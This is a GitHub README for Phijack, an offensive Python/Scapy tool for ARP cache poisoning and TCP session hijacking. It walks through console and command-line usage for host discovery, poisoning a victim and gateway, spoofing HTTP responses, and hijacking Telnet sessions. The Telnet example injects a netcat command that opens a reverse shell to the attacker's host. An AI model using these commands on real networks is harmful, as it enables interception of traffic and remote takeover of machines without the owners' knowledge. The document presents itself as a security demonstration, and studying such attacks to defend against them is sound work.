

# Phijack



## An Attack Tool for TCP Session Hijacking

The Transmission Control Protocol (TCP) is one of the main protocols of the Internet Protocol (IP) suite. As a transport-layer protocol, it allows applications to communicate with each other over a network. The connection-oriented nature of TCP leads to potential vulnerabilities when an attacker gains unauthorized access to an established session. Using Scapy, a tool was created to demonstrate TCP session hijacking attacks over a network. We demonstrate a man-in-the-middle attack through ARP cache poisoning, which is followed up by TCP session hijacking to attack unencrypted application-layer protocols. We present two proof-of-concept attacks: website spoofing through hijacking the HTTP protocol, and remote code execution through hijacking the Telnet protocol.

## Interface

`phijack.py` provides an interactive console. To view attack options, use the `SHOW OPTIONS` command. The default attack is a host discovery ARP scan. The two basic parameters, `IFACE` and `ATTACK`, are always required. The attack-specific parameters are listed under Attack Parameters.

For instance, the following configures a Telnet session hijacking attack:

```
[Phijack] > SET ATTACK HIJACK
ATTACK => hijack

[Phijack] > SET IFACE eth1
IFACE => eth1

[Phijack] > SET TARGET 192.168.99.1
TARGET => 192.168.99.1

[Phijack] > SET GATEWAY 192.168.99.102
GATEWAY => 192.168.99.102

[Phijack] > SET PROTO telnet
PROTO => telnet

[Phijack] > SET CMD nc -e cmd.exe 192.168.99.101 1337
CMD => nc -e cmd.exe 192.168.99.101 1337

[Phijack] > RUN
...
```

Alternatively, the `arp_poisoning.py` and `tcp_hijacking.py` modules take in command-line parameters.

## Proof of Concept

### Discovery

The following command can be used to discover hosts on the network using an ARP scan.

`python3 arp_poisoning.py discover 192.168.28.0/24`


### ARP Poisoning

Provide the victim IP and the gateway IP.

`python3 arp_poisoning.py attack 192.168.213.212 192.168.213.22`


All the subsequent attacks rely on first achieving a man-in-the-middle attack via ARP poisoning.


### HTTP Session Hijacking

The attacker returns an arbitrary webpage (`poc.html`) when the victim sends a HTTP GET request.

The legitimate website hosted on port 80:


Script output:


After successful attack, the victim sees the attacker's website instead:


### Telnet Session Hijacking

The attacker hijacks an established Telnet session to execute arbitrary commands. For example, the following executes `nc -e cmd.exe 192.168.213.223 4444`, giving the attacker a reverse shell into the Telnet server.

`python3 tcp_hijacking.py 192.168.213.212 192.168.213.197 telnet "nc -e cmd.exe 192.168.213.223 4444"`


Script output:


Reverse shell:


From the perspective of the victim, he/she has lost connection to the Telnet server, and is not aware of the presence of the attacker.

